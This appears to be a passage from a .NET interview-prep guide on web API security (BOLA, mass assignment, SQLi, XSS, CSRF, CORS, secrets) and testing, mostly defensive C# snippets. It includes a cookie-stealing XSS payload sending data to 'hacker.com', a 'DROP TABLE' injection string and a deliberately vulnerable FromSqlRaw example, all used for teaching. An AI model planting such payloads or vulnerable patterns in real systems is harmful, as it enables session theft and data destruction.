| **Cross-Site Request Forgery (CSRF)** | Malicious third-party site tricks user's browser into executing state-changing requests using ambient cookies. | Anti-Forgery Tokens (`[ValidateAntiForgeryToken]`), `SameSite=Strict` cookies, or JWT headers. | Decorate MVC actions with `[ValidateAntiForgeryToken]` or configure `SameSite = SameSiteMode.Strict`. |

#### 1. Minimal Safe Parameterized SQL Query in EF Core (C#)
```csharp
// SAFE: EF Core turns string interpolation into parameterized @p0 SQL command
public async Task<List<User>> SearchUsersSafeAsync(AppDbContext db, string searchEmail)
{
    // Never use FromSqlRaw with string interpolation! Always use FromSqlInterpolated:
    return await db.Users
        .FromSqlInterpolated($"SELECT * FROM Users WHERE Email = {searchEmail}")
        .AsNoTracking()
        .ToListAsync();
}
```

#### 2. Minimal XSS Sanitization with `HtmlEncoder` (C#)
```csharp
// SAFE: Encodes hazardous characters like <script> into &lt;script&gt;
public string SanitizeUserComment(string rawInput)
{
    if (string.IsNullOrWhiteSpace(rawInput)) return string.Empty;
    return HtmlEncoder.Default.Encode(rawInput.Trim());
}
```

#### 3. Minimal CSRF Protection in ASP.NET Core (C#)
```csharp
// Program.cs: Register Antiforgery service & auto-validation for state-changing HTTP methods
builder.Services.AddAntiforgery(options => options.HeaderName = "X-XSRF-TOKEN");
builder.Services.AddControllersWithViews(options => 
    options.Filters.Add(new AutoValidateAntiforgeryTokenAttribute()));
```

#### 4. Minimal BOLA Prevention with Tenant Ownership Check (C#)
```csharp
// SAFE: Checks entity ID AND tenant ownership simultaneously
public async Task<Invoice?> GetInvoiceAsync(AppDbContext db, Guid invoiceId, Guid currentTenantId)
{
    return await db.Invoices
        .FirstOrDefaultAsync(i => i.Id == invoiceId && i.TenantId == currentTenantId);
}
```

#### 5. Minimal Mass Assignment Defense with Request DTO (C#)
```csharp
// SAFE: Request DTO only allows updating safe user-editable fields (cannot tamper IsAdmin)
public record UpdateUserRequest(string FullName, string PhoneNumber);

[HttpPut("api/users/profile")]
public async Task<IActionResult> UpdateProfile(UpdateUserRequest req, AppDbContext db, Guid userId)
{
    var user = await db.Users.FindAsync(userId);
    if (user == null) return NotFound();
    
    user.FullName = req.FullName;
    user.PhoneNumber = req.PhoneNumber;
    await db.SaveChangesAsync();
    return NoContent();
}
```

---

### Q3 (Cognizant / Persistent / Nagarro / EPAM): "What is Broken Object-Level Authorization (BOLA / IDOR) and Mass Assignment (Over-Posting) in Web APIs? How do you prevent them in ASP.NET Core using Request DTOs and Tenant ownership verification?"

* **Why Interviewers Ask It:** BOLA (Insecure Direct Object Reference) is ranked #1 on the OWASP API Security Top 10. Mass Assignment has led to massive enterprise security breaches where regular users elevated themselves to administrators. Indian consultancies and FinTechs expect seniors to design systemic defenses against these attacks.

* **⚡ 30-Second Senior Opening Pitch:**  
  > "BOLA occurs when an API endpoint accepts an arbitrary resource ID (e.g. `/api/orders/{id}`) and returns data without validating that the authenticated user actually owns that resource, allowing attackers to access other customers' records by simply enumerating integers or GUIDs. Mass Assignment occurs when controllers bind incoming JSON payloads directly to domain or ORM entity models, allowing attackers to inject restricted properties like `IsAdmin: true` or `Balance: 100000`. We prevent BOLA by enforcing tenant/user ownership in every database query or using EF Core Global Query Filters, and eliminate Mass Assignment by strictly binding to dedicated Request DTOs."

* **🎯 Exact Formal Definitions & Rubric Keywords Interviewers Want to Hear:**
  * **Exact Formal CS / Architecture Definition:**  
    > *"Broken Object-Level Authorization (OWASP API Security #1 / IDOR) occurs when an endpoint manipulates object identifiers in request paths or bodies without validating that the authenticated user possesses legitimate tenant/entity ownership of the target resource. Mass Assignment (Over-Posting) occurs when client-supplied JSON payloads automatically bind to internal domain entity properties (e.g., IsAdmin, Balance) due to naive ORM model binding."*
  * **Rubric Keywords That Score Marks on the Interviewer's Evaluation Sheet:**
    * **OWASP API Security Top 10 (#1 BOLA / IDOR):** The #1 security flaw in modern APIs where endpoints expose database IDs without tenant ownership validation.
    * **Insecure Direct Object Reference (IDOR):** Direct exposure of database primary keys (e.g., /api/invoices/1042) enabling attackers to enumerate records of other tenants.
    * **Tenant Isolation & Query Filtering:** Mandatory data access pattern appending WHERE TenantId = @TenantId to all SQL queries.
    * **Mass Assignment / Over-Posting Attack:** Vulnerability where client JSON payloads bind to sensitive entity fields not intended for public modification.
    * **Strict Request DTOs (Data Transfer Objects):** Banning domain entities in controller action parameters; exclusively binding dedicated input contracts.
    * **AutoMapper Property Whitelisting:** Explicit property mapping forbidding blind copying of client values to domain models.
  * **"How to Say It in Your Project" (Exact Production Experience Phrasing):**  
    > *"To defend against BOLA, our repository queries always append the authenticated TenantId and UserId extracted from JWT claims (WHERE OrderId = @Id AND TenantId = @UserTenantId), ensuring users cannot access arbitrary GUIDs. To prevent Mass Assignment, our controllers exclusively accept dedicated Request DTOs, never domain models."*

* **🧠 Everyday Analogies (Mental Models for Fast Recall):**  
  * **BOLA / IDOR:** A hotel where the keycard doesn't have an electronic lock chip, just a room number written on it in chalk. If you stay in room 301, but rub the chalk off and write 302, the door opens anyway because the hotel doesn't verify if room 302 belongs to you.
  * **Mass Assignment:** Filling out a printed job application form and writing your own checkbox at the bottom in pencil: `[X] Appoint as CEO with $1M salary`. If the HR system blindly copies every checkbox into the company database, you just hacked the organization!

* **💻 Simple, Clean, Runnable Code Snippet (5–15 Lines):**
```csharp
// PREVENTING BOLA: Filter by Object ID AND User's Verified Tenant/User Claim
[HttpGet("api/orders/{id:guid}")]
public async Task<IActionResult> GetOrder(Guid id, AppDbContext db)
{
    var tenantId = Guid.Parse(User.FindFirstValue("tenant_id")!);
    
    // CRITICAL: Must query on BOTH order Id AND tenantId
    var order = await db.Orders
        .AsNoTracking()
        .FirstOrDefaultAsync(o => o.Id == id && o.TenantId == tenantId);

    if (order == null) return NotFound(); // Prevent attackers confirming existence
    return Ok(order);
}
```

* **⚠️ Senior Trap & Cross-Question (What the Interviewer Will Ask Next + Senior Rebuttal):**  
  * **The Trap:** Returning `HTTP 403 Forbidden` when an IDOR check fails. If an attacker queries `/api/orders/999` and gets 403 Forbidden, they have confirmed that Order #999 exists! Return `HTTP 404 Not Found` instead so attackers cannot enumerate valid database IDs.
  * **Interviewer Cross-Question:** *"How do you prevent a developer on your team from forgetting to add `&& o.TenantId == tenantId` in a new controller?"*
  * **Senior Answer:** *"We configure EF Core Global Query Filters in `OnModelCreating`: `modelBuilder.Entity<Order>().HasQueryFilter(o => o.TenantId == _currentTenantProvider.TenantId);`. This injects tenant filtering at the ORM query generation level across the entire application automatically, eliminating human error."*

* **📊 "When to Use What & What Must Be Done" Quick Decision Guide:**

| Threat | What to Use | Why / Trade-offs | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **Object Data Snooping (BOLA)** | **Global Query Filter** | Guarantees multi-tenant isolation across 100% of queries without developer forgetfulness. | Add `builder.Entity<Order>().HasQueryFilter(e => e.TenantId == _tenantId);` |
| **Tampered Admin Rights (Over-Posting)** | **Request DTO Pattern** | Completely prevents client JSON from touching sensitive database entity properties. | Define contract: `public record UpdateUserDto(string Name);` |
| **Complex Dynamic Entity Access** | **Resource-Based Auth** | Supports evaluating dynamic state rules (e.g. Order can only be edited if status is Draft). | Use `IAuthorizationService.AuthorizeAsync(User, order, "CanEditOrder")`. |

---

### Q4 (Wells Fargo / Walmart / Deloitte): "How do you protect ASP.NET Core APIs against SQL Injection (SQLi), Cross-Site Scripting (XSS), and Cross-Site Request Forgery (CSRF)? Why does EF Core FromSqlRaw cause SQLi if misused?"

* **Why Interviewers Ask It:** These represent the holy trinity of web vulnerabilities. In banking (Wells Fargo) and retail (Walmart), an SQL injection flaw can dump customer credit cards, while XSS can hijack executive sessions. Interviewers want concrete proof of how you prevent them in modern C# and EF Core.

* **⚡ 30-Second Senior Opening Pitch:**  
  > "We enforce defense-in-depth across the web stack. **SQL Injection** is systematically prevented by using LINQ or `FromSqlInterpolated`, which transforms string interpolations into safe parameterized `DbParameter` instances. A fatal mistake is passing interpolated strings into `FromSqlRaw`, which executes raw concatenated SQL text. **XSS** is prevented by contextual HTML encoding via `HtmlEncoder.Default` and strict Content-Security-Policy (CSP) headers. **CSRF** is neutralized using Anti-Forgery tokens (`AutoValidateAntiforgeryToken`) and `SameSite=Strict` cookies; Web APIs using stateless `Authorization: Bearer` headers are natively immune to CSRF because browsers never attach custom authorization headers automatically."

* **🎯 Exact Formal Definitions & Rubric Keywords Interviewers Want to Hear:**
  * **Exact Formal CS / Architecture Definition:**  
    > *"SQL Injection occurs when untrusted input is concatenated directly into SQL command strings, altering query semantics and bypassing database access controls. Cross-Site Scripting (XSS) occurs when malicious JavaScript is injected into application views and executed in the security context of a victim's browser session. Cross-Site Request Forgery (CSRF) tricks an authenticated browser into submitting unauthorized requests to a trusted application using ambient credentials (cookies)."*
  * **Rubric Keywords That Score Marks on the Interviewer's Evaluation Sheet:**
    * **Parameterized SQL Queries & FromSqlInterpolated:** EF Core query mechanism transforming interpolated strings into parameterized DbParameter objects at compile time.
    * **FromSqlRaw Concatenation Anti-Pattern:** Vulnerability where developers use string interpolation ($) inside FromSqlRaw, exposing queries to direct SQL injection.
    * **Context-Aware Output Encoding (HtmlEncoder):** Sanitizing HTML entities (<, >, &, ") before rendering untrusted text in views to neutralize XSS.
    * **Content Security Policy (CSP):** HTTP response header restricting origins from which scripts, styles, and images can execute in the browser.
    * **Anti-Forgery Tokens (IAntiforgery / [ValidateAntiForgeryToken]):** Cryptographic tokens verifying that incoming mutating requests originated from legitimate application forms.
    * **Cookie Security Flags (HttpOnly, SameSite=Strict, SecurePolicy=Always):** Defense-in-depth flags preventing JavaScript cookie access and neutralizing cross-site forged requests.
  * **"How to Say It in Your Project" (Exact Production Experience Phrasing):**  
    > *"We completely eliminated SQLi by banning string concatenation in EF Core and using parameterized queries with FromSqlInterpolated. For web security, we store JWTs in memory or HttpOnly cookies with SameSite=Strict and enforce Content-Security-Policy headers to eliminate XSS and CSRF attack surfaces."*

* **🧠 Everyday Analogies (Mental Models for Fast Recall):**  
  * **SQL Injection:** Ordering at a drive-through restaurant and saying: *"Give me 1 burger; DROP TABLE Menu;-- "*. A vulnerable cashier repeats the whole sentence into the kitchen intercom, crashing the restaurant. A parameterized cashier puts your text into a sealed envelope labeled "Item Name" where it can never be executed as an instruction.
  * **Cross-Site Scripting (XSS):** An attacker carving a venomous spider into a park bench. When an innocent visitor sits down, they get bitten. In web terms, an attacker posts `<script>fetch('hacker.com?c='+document.cookie)</script>` into a forum; when another user views the page, their browser executes the script.
  * **Cross-Site Request Forgery (CSRF):** A scammer handing you an envelope addressed to your bank requesting a ₹1,00,000 transfer, and having the mailman deliver it with your authentic house stamp. The bank honors it because the request carries your legitimate signature.

* **💻 Simple, Clean, Runnable Code Snippet (5–15 Lines):**
```csharp
// Program.cs - Security Headers Middleware Defending Against XSS & Clickjacking
app.Use(async (context, next) =>
{
    context.Response.Headers.Append("X-Content-Type-Options", "nosniff");
    context.Response.Headers.Append("X-Frame-Options", "DENY");
    context.Response.Headers.Append("Content-Security-Policy", 
        "default-src 'self'; script-src 'self'; object-src 'none'; frame-ancestors 'none';");
    context.Response.Headers.Append("Strict-Transport-Security", "max-age=31536000; includeSubDomains");
    await next();
});

// SAFE Parameterized SQL in EF Core
var users = await db.Users
    .FromSqlInterpolated($"SELECT * FROM Users WHERE Status = {userStatus}")
    .ToListAsync();
```

* **⚠️ Senior Trap & Cross-Question (What the Interviewer Will Ask Next + Senior Rebuttal):**  
  * **The Trap:** Thinking that EF Core guarantees 100% immunity to SQL Injection. If a junior writes: `db.Users.FromSqlRaw($"SELECT * FROM Users WHERE Email = '{email}'")`, C# evaluates the interpolated string *before* passing it into `FromSqlRaw(string sql)`. This completely bypasses parameterization and executes an exploitable SQL Injection query!
  * **Interviewer Cross-Question:** *"Do our REST APIs protected by JWT Bearer tokens require CSRF tokens? Why or why not?"*
  * **Senior Answer:** *"No. CSRF attacks exploit ambient credentials—namely, cookies automatically attached by web browsers to cross-site requests. Pure REST APIs require the frontend application to explicitly read the JWT from memory and attach it as an `Authorization: Bearer <token>` HTTP header. Browsers never automatically attach custom Authorization headers across origins, rendering pure JWT APIs immune to CSRF."*

* **📊 "When to Use What & What Must Be Done" Quick Decision Guide:**

| Threat | What to Use | Why / Trade-offs | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **SQL Injection (EF Core)** | `FromSqlInterpolated` | Guarantees parameterization via `FormattableString`. | `db.Database.SqlQuery<int>($"SELECT Id FROM T WHERE C = {input}")` |
| **XSS Prevention (DOM)** | `HtmlEncoder.Default` + CSP | Neutralizes HTML special characters & bans unauthorized external scripts. | Add CSP header in middleware: `Content-Security-Policy: default-src 'self'` |
| **CSRF Defense (Cookies)** | Anti-Forgery Tokens + `SameSite=Strict` | Verifies request originated from legitimate application form session. | `[ValidateAntiForgeryToken]` on POST/PUT endpoints. |

---

## Section 3: CORS & Enterprise Secret Management

### 🎯 Simple Use Cases & "When to Use What" Decision Guide: CORS & Secret Management

| Trigger / Requirement / Scenario | What to Use | Why / Trade-offs | What Must Be Done (Action Steps & Snippet) |
| :--- | :--- | :--- | :--- |
| **Cross-Origin Web SPA (React/Angular on `http://localhost:4200` to API on port `5001`)** | **ASP.NET Core CORS Middleware (`UseCors`)** | **Pros:** Granular origin/method/header whitelisting; handles preflight `OPTIONS` requests.<br>**Cons:** Browser-only protection; incorrect middleware ordering causes silent failure. | Register named CORS policy in `AddCors()` and place `app.UseCors()` between `UseRouting()` and `UseAuthentication()`. |
| **Local Developer Machine Secrets (Connection strings, API keys, developer tokens)** | **.NET Secret Manager (`dotnet user-secrets`)** | **Pros:** Stores secrets outside project folder tree in OS user profile; prevents accidental `git commit`.<br>**Cons:** Local dev only; not encrypted at rest on developer disk. | Run `dotnet user-secrets init` and `dotnet user-secrets set "Db:Password" "Secret123"`. |
| **Containerized Deployments (Docker / Kubernetes Pods)** | **Environment Variables / K8s Secrets** | **Pros:** 12-Factor App compliant; native container runtime injection; overrides `appsettings.json`.<br>**Cons:** Visible to administrators with pod root inspection permissions. | Use double underscores (`Db__Password`) to map to nested JSON hierarchy. |
| **Enterprise Cloud Production (Azure AKS / Azure App Service)** | **Azure Key Vault with `DefaultAzureCredential`** | **Pros:** Hardware Security Module (HSM) backed; zero passwords in code (Managed Identity); audit logs.<br>**Cons:** Latency on cold start; cloud network configuration required. | Add package `Azure.Identity` and call `builder.Configuration.AddAzureKeyVault(vaultUri, new DefaultAzureCredential())`. |

#### 1. Minimal Production CORS Setup in `Program.cs` (C#)
```csharp
// Program.cs - Production CORS Whitelist with Strict Middleware Ordering
var builder = WebApplication.CreateBuilder(args);

builder.Services.AddCors(options =>
{
    options.AddPolicy("ProductionCorsPolicy", policy =>
    {
        policy.WithOrigins("https://portal.bank.com", "https://admin.bank.com")
              .WithMethods("GET", "POST", "PUT", "DELETE")
              .WithHeaders("Authorization", "Content-Type", "X-Request-ID")
              .AllowCredentials(); // Requires explicit origins; never use AllowAnyOrigin() with credentials!
    });
});

var app = builder.Build();

// CRITICAL MIDDLEWARE ORDERING: Routing -> CORS -> AuthN -> AuthZ
app.UseRouting();
app.UseCors("ProductionCorsPolicy"); // Must run BEFORE UseAuthentication!
app.UseAuthentication();
app.UseAuthorization();
```

#### 2. Minimal Azure Key Vault Registration with `DefaultAzureCredential` (C#)
```csharp
// Program.cs - Zero hardcoded credentials via Azure Managed Identity
var keyVaultUri = builder.Configuration["KeyVault:VaultUri"];
if (!string.IsNullOrEmpty(keyVaultUri))
{
    builder.Configuration.AddAzureKeyVault(
        new Uri(keyVaultUri),
        new DefaultAzureCredential()); // Uses Managed Identity in Azure, CLI/VS credentials locally
}
```

#### 3. Minimal Local Secret Management CLI Commands (Bash)
```bash
# 1. Initialize User Secrets in the API project directory (creates UserSecretsId in .csproj)
dotnet user-secrets init

# 2. Store sensitive connection string locally outside git
dotnet user-secrets set "ConnectionStrings:DefaultConnection" "Server=localhost;Database=DevDb;User Id=sa;Password=DevSecret123!;"

# 3. Verify secret is saved to %APPDATA%\Microsoft\UserSecrets\<GUID>\secrets.json
dotnet user-secrets list
```

---

### Q5 (Infosys / Wipro / TCS / HCL): "What is CORS (Cross-Origin Resource Sharing)? Why does the browser trigger a preflight OPTIONS request, and what is the exact middleware ordering in Program.cs?"

* **Why Interviewers Ask It:** CORS issues cause 80% of frontend-backend integration headaches in Indian enterprise IT projects. Junior developers frequently react by pasting `AllowAnyOrigin().AllowAnyMethod().AllowAnyHeader()` in production or placing middleware in the wrong sequence, breaking preflight checks.

* **⚡ 30-Second Senior Opening Pitch:**  
  > "CORS is a browser-enforced security mechanism implementing the **Same-Origin Policy (SOP)**. When a web application on `Origin A` tries to fetch resources from `Origin B`, the browser blocks the response unless `Origin B` explicitly includes matching `Access-Control-Allow-Origin` headers. For non-simple HTTP requests (such as `PUT`, `DELETE`, or requests carrying custom `Authorization` headers), the browser first dispatches an automated **preflight `OPTIONS` probe** to check permissions before sending the actual payload. In ASP.NET Core, `app.UseCors()` must be placed strictly after `app.UseRouting()` and before `app.UseAuthentication()`."

* **🎯 Exact Formal Definitions & Rubric Keywords Interviewers Want to Hear:**
  * **Exact Formal CS / Architecture Definition:**  
    > *"CORS is a browser-enforced W3C security mechanism using HTTP headers to permit or restrict web applications running at one origin from requesting restricted resources on a different origin (domain, protocol, or port). The browser initiates preflight OPTIONS requests checking Access-Control-Allow-Origin, Access-Control-Allow-Methods, and Access-Control-Allow-Headers before dispatching mutating requests."*
  * **Rubric Keywords That Score Marks on the Interviewer's Evaluation Sheet:**
    * **Same-Origin Policy (SOP):** Browser security sandbox restricting scripts from reading data from different origins (protocol, domain, port).
    * **Preflight HTTP OPTIONS Handshake:** Initial browser request validating cross-origin permissions before sending POST, PUT, DELETE, or custom-header calls.
    * **CORS Response Headers:** Access-Control-Allow-Origin, Access-Control-Allow-Methods, Access-Control-Allow-Headers, Access-Control-Allow-Credentials.
    * **Middleware Ordering:** Placing app.UseCors() strictly between app.UseRouting() and app.UseAuthentication() so preflight OPTIONS requests return immediately.
    * **Origin Whitelisting:** Production security requirement explicitly naming trusted domains (WithOrigins("https://app.bank.com")) while strictly banning AllowAnyOrigin.
    * **Credentials & Wildcard Incompatibility:** Browsers reject responses containing both Access-Control-Allow-Origin: * and Access-Control-Allow-Credentials: true.
  * **"How to Say It in Your Project" (Exact Production Experience Phrasing):**  
    > *"In production, we strictly whitelist specific front-end origins in Program.cs and place app.UseCors() strictly between app.UseRouting() and app.UseAuthentication(). This guarantees that preflight OPTIONS requests return immediately with valid headers without being rejected by downstream authentication middleware."*

* **🧠 Everyday Analogies (Mental Models for Fast Recall):**  
  * Imagine sending an international cargo container to a foreign port. Before the cargo ship docks and unloads goods, the harbor authority sends a small patrol boat ahead (`OPTIONS` preflight probe) asking: *"Does this port accept medical supplies from India with customs code X?"*
  * If the harbor officer gives a signed clearance certificate (`Access-Control-Allow-Origin: India`), the main cargo ship delivers the container (`POST /api/orders`). If rejected, the cargo ship turns back without unloading a single item.

* **💻 Simple, Clean, Runnable Code Snippet (5–15 Lines):**
```csharp
// Program.cs - Correct CORS Middleware Ordering Sequence
var app = builder.Build();

app.UseRouting(); // 1. Matches the incoming request route

// 2. Evaluates CORS before authentication so preflight OPTIONS requests are answered!
app.UseCors(policy => policy
    .WithOrigins("https://client.enterprise.com")
    .AllowAnyHeader()
    .AllowAnyMethod());

app.UseAuthentication(); // 3. Identifies the user
app.UseAuthorization();  // 4. Enforces permissions
app.MapControllers();    // 5. Executes endpoint logic
```

* **⚠️ Senior Trap & Cross-Question (What the Interviewer Will Ask Next + Senior Rebuttal):**  
  * **The Trap:** Placing `app.UseCors()` *after* `app.UseAuthentication()`. Why is this fatal? Because the browser's preflight `OPTIONS` request **does not contain authorization headers**! If `UseAuthentication` or `UseAuthorization` runs before `UseCors`, the pipeline rejects the preflight probe with `401 Unauthorized`, and the browser aborts the request before your API ever receives the actual payload!
  * **Interviewer Cross-Question:** *"Does CORS protect our API against attacks executed via Postman, curl, or automated Python scripts?"*
  * **Senior Answer:** *"No! CORS is strictly a client-side constraint enforced exclusively by web browsers. Backend-to-backend calls, Postman, curl, and automated bot scripts do not respect the Same-Origin Policy and completely ignore CORS response headers. CORS is not an API security firewall; endpoint authorization must always be enforced by JWT validation and authorization policies."*

* **📊 "When to Use What & What Must Be Done" Quick Decision Guide:**

| Scenario | What to Use | Why / Trade-offs | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **Local Development** | Named policy with `localhost` origins | Allows Angular/React frontend devs on port 4200/3000 to call API. | `policy.WithOrigins("http://localhost:4200")` |
| **Production Environment** | Strict Domain Whitelist | Prevents malicious third-party websites from reading sensitive API data. | Explicit URLs: `policy.WithOrigins("https://portal.bank.com")` |
| **APIs with Auth Cookies** | `AllowCredentials()` + Explicit Origins | Required for browser to transmit session cookies cross-origin. | `policy.WithOrigins("...").AllowCredentials()` (Wildcard `*` will fail!) |

---

### Q6 (Persistent / Nagarro / Wells Fargo): "How do you manage application secrets in modern .NET? Explain User Secrets for local dev, Environment Variables in Docker, and Azure Key Vault in production. Why must secrets NEVER be checked into Git?"

* **Why Interviewers Ask It:** Accidental leakage of database connection strings, JWT signing keys, and cloud credentials into public or private Git repositories is a leading cause of enterprise data breaches. Interviewers test your operational knowledge of secret hierarchy and Azure Managed Identities.

* **⚡ 30-Second Senior Opening Pitch:**  
  > "Modern .NET implements a layered configuration provider architecture designed to decouple secrets from source code. In local development, we use **.NET Secret Manager (`dotnet user-secrets`)**, which stores secrets outside the repository in the local OS user profile (`%APPDATA%` or `~/.microsoft/usersecrets`). In Docker and Kubernetes, secrets are injected as **Environment Variables** or mounted secret volumes. In enterprise production, we standardize on **Azure Key Vault with `DefaultAzureCredential`**: the application accesses secrets via Azure Managed Identity with zero credentials or certificates hardcoded in source code or `appsettings.json`."

* **🎯 Exact Formal Definitions & Rubric Keywords Interviewers Want to Hear:**
  * **Exact Formal CS / Architecture Definition:**  
    > *"Enterprise secret management is a defense-in-depth operational methodology ensuring credentials, private keys, and connection strings are injected dynamically into execution runtimes without persistent storage in source control, utilizing ephemeral developer user secrets locally, container environment variables in test/staging, and cloud hardware security modules (Azure Key Vault / AWS Secrets Manager) with managed identities in production."*
  * **Rubric Keywords That Score Marks on the Interviewer's Evaluation Sheet:**
    * **Azure Key Vault:** Cloud HSM (Hardware Security Module) securely storing secrets, cryptographic keys, and SSL certificates.
    * **Azure Managed Identity (System-Assigned / User-Assigned):** Passwordless Azure Active Directory identity tied to an AKS pod or App Service, eliminating client secrets entirely.
    * **DefaultAzureCredential:** Azure.Identity SDK chain attempting Managed Identity, Environment Variables, and Azure CLI automatically.
    * **.NET User Secrets Manager (dotnet user-secrets):** Local developer tool storing sensitive settings in user profile folders outside Git directories.
    * **GitLeaks / Secret Scanning:** Automated SAST scanners running in CI/CD pipelines to detect hardcoded API keys and connection strings.
    * **Least Privilege Access Policies:** Granting services get/list secret permissions only on designated Key Vault instances.
  * **"How to Say It in Your Project" (Exact Production Experience Phrasing):**  
    > *"In our production AKS cluster, we eliminated connection strings from configuration files entirely by using Azure Key Vault with Managed Identities via DefaultAzureCredential. During pod startup, secrets are resolved in-memory with automatic key rotation and zero secrets checked into Git."*

* **🧠 Everyday Analogies (Mental Models for Fast Recall):**  
  * **`appsettings.json`:** A bulletin board in your apartment lobby. Anyone who walks through the lobby (anyone with Git access) sees what is pinned on it. Never pin your house keys or bank PIN there!
  * **User Secrets:** A key kept in your personal home safe. Other roommates or visitors cannot see it.
  * **Environment Variables:** Handing a temporary keycard to the facility manager at the door of the server room.
  * **Azure Key Vault:** A central biometric bank vault. The application walks up, the retina scanner verifies its Azure Managed Identity, and the vault dispenses the exact credential for that session, logging every access audit trail.

* **💻 Simple, Clean, Runnable Code Snippet (5–15 Lines):**
```csharp
// Program.cs - Azure Key Vault Integration with Managed Identity
var builder = WebApplication.CreateBuilder(args);

if (builder.Environment.IsProduction())
{
    var vaultUri = builder.Configuration["KeyVault:VaultUri"]
        ?? throw new InvalidOperationException("KeyVault URI missing!");
    
    // Authenticates using Azure Managed Identity without any hardcoded credentials!
    builder.Configuration.AddAzureKeyVault(
        new Uri(vaultUri), 
        new DefaultAzureCredential());
}

// Access secret transparently via standard IConfiguration
var dbPassword = builder.Configuration["Database:Password"];
```

* **⚠️ Senior Trap & Cross-Question (What the Interviewer Will Ask Next + Senior Rebuttal):**  
  * **The Trap:** Committing a secret into Git, realizing the mistake, and making a second commit that removes the secret from `appsettings.json`. The secret is still completely accessible in the repository Git commit history! Attackers run automated scrapers (like GitGuardian or TruffleHog) on commit histories. If a secret is committed, it **must be treated as compromised and rotated immediately**!
  * **Interviewer Cross-Question:** *"How does `DefaultAzureCredential` resolve identities when running locally on a developer laptop versus running inside an Azure Kubernetes Service (AKS) pod?"*
  * **Senior Answer:** *"Under the hood, `DefaultAzureCredential` evaluates a chained resolution sequence: Locally on developer machines, it checks for active credentials from Visual Studio, VS Code, Azure CLI (`az login`), or PowerShell. In AKS production, it seamlessly transitions down the chain to use Workload Identity or Managed Identity via pod environment tokens. This guarantees zero configuration changes between local dev and cloud production."*

* **📊 "When to Use What & What Must Be Done" Quick Decision Guide:**

| Lifecycle Stage | Secret Storage | Why / Trade-offs | Action Steps & Snippet |
| :--- | :--- | :--- | :--- |
| **Local Development** | .NET User Secrets | Kept off Git; stored in user OS profile. | Run `dotnet user-secrets set "Key" "Value"` |
| **Docker / Local CI** | Environment Variables | Standard container config pattern. | In Docker: `-e "ConnectionStrings__Db=..."` |
| **Enterprise Cloud** | Azure Key Vault / AWS Secrets Manager | Centralized HSM security, secret rotation, audit logging. | `builder.Configuration.AddAzureKeyVault(uri, new DefaultAzureCredential())` |

---

# PART 2: AUTOMATED TESTING & QUALITY ENGINEERING

## Section 4: Testing Pyramid, xUnit, Mocks & WebApplicationFactory

### 🎯 Simple Use Cases & "When to Use What" Decision Guide: Testing Strategies

| Test Tier | Primary Framework / Tool | What It Tests | Execution Speed | What Must Be Done (Action Steps & Snippet) |
| :--- | :--- | :--- | :--- | :--- |
| **Unit Testing (70% of Suite)** | **xUnit + NSubstitute / Moq** | Isolated domain algorithms, business calculations, validators. | < 2 milliseconds per test | Mock external interfaces (`IRepository`), invoke pure method, and verify invariants. |
| **Integration Testing (20% of Suite)** | **`WebApplicationFactory<Program>` + Testcontainers** | End-to-end HTTP pipeline, middleware, routing, serialization, real SQL queries & migrations. | 100ms – 1.5 seconds per test | Boot in-memory Kestrel, execute real HTTP requests, verify real SQL state in ephemeral Docker container. |
| **End-to-End Testing (10% of Suite)** | **Playwright / Cypress** | Browser rendering, user workflows, multi-service contract integration. | 3 – 10 seconds per test | Run headless browser against deployed staging cluster. |
| **Architecture Testing** | **NetArchTest / ArchUnitNET** | Solution layer dependencies (e.g. Domain must NEVER depend on Infrastructure). | < 50 milliseconds | Write automated test: `Types.InCurrentDomain().That().ResideInNamespace("Domain").ShouldNot().HaveDependencyOn("Infrastructure")`. |

#### 1. Minimal Unit Test with NSubstitute (5–10 Lines)
```csharp
[Fact]
public async Task CalculateDiscount_GoldTier_AppliesTwentyPercent()
{
    var repo = Substitute.For<ICustomerRepository>();
    repo.GetTierAsync(101).Returns(CustomerTier.Gold);
    var service = new PricingEngine(repo);

    var discount = await service.CalculateDiscountAsync(101, 1000m);

    discount.Should().Be(200m); // FluentAssertions validation
}
```

#### 2. Minimal Integration Test with `WebApplicationFactory` (10–15 Lines)
```csharp
public class OrderApiTests : IClassFixture<WebApplicationFactory<Program>>
{
    private readonly HttpClient _client;
    public OrderApiTests(WebApplicationFactory<Program> factory) => _client = factory.CreateClient();

    [Fact]
    public async Task GetOrders_ReturnsSuccessStatusCode()
    {
        var response = await _client.GetAsync("/api/v1/orders");
        response.StatusCode.Should().Be(HttpStatusCode.OK);
    }
}
```

---

### Q7 (EPAM / Walmart / Wells Fargo): "Explain the Testing Pyramid in .NET. When do you write Unit Tests with xUnit and Moq/NSubstitute versus Integration Tests with WebApplicationFactory<Program> and Testcontainers?"

* **Why Interviewers Ask It:** Junior developers either write zero tests or rely on EF Core's fake in-memory database (`UseInMemoryDatabase`), which causes catastrophic false-positive passes while failing in production SQL Server. Interviewers want to verify your ability to construct high-confidence, production-grade test suites.

* **⚡ 30-Second Senior Opening Pitch:**  
  > "The testing pyramid divides quality assurance into three tiers: **Unit Tests (70%)** test isolated business logic in sub-milliseconds using xUnit and NSubstitute without touching external networks or disks. **Integration Tests (20%)** test the entire ASP.NET Core pipeline—middleware, model binding, authorization, and real database SQL queries—using `WebApplicationFactory<Program>` paired with **Testcontainers** to spin up genuine ephemeral Docker database containers. We strictly ban EF Core's `UseInMemoryDatabase` because it doesn't enforce foreign keys, relational constraints, or database-specific SQL dialect translation."

* **🎯 Exact Formal Definitions & Rubric Keywords Interviewers Want to Hear:**
  * **Exact Formal CS / Architecture Definition:**  
    > *"The Testing Pyramid is a quality engineering paradigm advocating for a high volume of fast, isolated Unit Tests validating domain logic with test doubles (mocks/stubs), a moderate tier of Integration Tests validating component orchestration and database persistence using real infrastructure, and a minimal tier of End-to-End (E2E) tests validating complete business flows."*
  * **Rubric Keywords That Score Marks on the Interviewer's Evaluation Sheet:**
    * **Test Pyramid Tiering:** 70% Unit Tests (fast, in-memory) -> 20% Integration Tests (real DB/containers) -> 10% End-to-End Tests (UI/full flow).
    * **xUnit Test Framework:** The modern .NET test runner utilizing constructor/Dispose lifecycle and [Fact] / [Theory] parameterized tests.
    * **NSubstitute / Moq Test Doubles:** Mocking libraries creating isolated test doubles for service interfaces in unit tests.
    * **WebApplicationFactory<TProgram>:** In-memory test server (TestServer) hosting the full ASP.NET Core dependency injection container and middleware pipeline.
